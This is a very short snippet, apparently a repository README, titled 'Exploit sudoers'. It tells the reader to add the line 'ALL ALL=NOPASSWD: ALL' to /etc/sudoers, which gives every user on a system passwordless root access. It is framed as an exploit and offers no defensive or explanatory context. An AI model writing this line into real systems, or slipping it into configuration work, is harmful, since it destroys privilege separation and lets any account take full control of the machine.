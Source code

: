 
# Exploit sudoers

add oneline in `/etc/sudoers` to let all user sudo.

```
ALL     ALL=NOPASSWD: ALL
```